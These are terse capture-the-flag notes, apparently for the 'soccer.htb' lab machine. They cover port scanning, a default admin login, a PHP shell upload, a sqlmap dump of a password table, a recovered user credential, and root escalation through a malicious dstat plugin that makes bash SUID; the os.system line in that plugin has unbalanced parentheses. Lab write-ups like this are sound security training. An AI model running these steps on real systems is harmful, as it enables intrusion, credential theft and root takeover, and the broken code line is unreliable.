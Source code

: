 PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?

![[Pasted image 20221218080504.png]]
default admin:admin@123
tried exploit for this version but didn't work 
![[Pasted image 20221218080601.png]]
copy the .php file to uploads folder so we can modify it
![[Pasted image 20221218080629.png]]
file gets deleted by some kind of cron so we need to be fast
![[Pasted image 20221218080723.png]]
save ![[Pasted image 20221218080738.png]]
![[Pasted image 20221218080811.png]]
and we get a shell
![[Pasted image 20221218080834.png]]
![[Pasted image 20221218080904.png]]
![[Pasted image 20221218080943.png]]
 sqlmap -u ws://soc-player.soccer.htb:9091 --data="{\"id\":\"67114\"}" -D "soccer_db" -T "accounts" -C "password" --dump --batch 

player:PlayerOftheMatch2022

/data                                                                                                                                  
/vagrant   
```
5133      sed-Es,jdwp|tmux |screen | inspect |--inspect[= ]|--inspect$|--inpect-brk|--remote-debugging-port,&,g       
```
create plugin inside dstat folder
name it dstat_smth.py
inside the script
import os
os.system("(cp /bin/bash /tmp/bash && chmod u+s /tmp/bash && chmod +x /tmp/bash")

doas -u root dstat --list
doas -u root dstat --smth
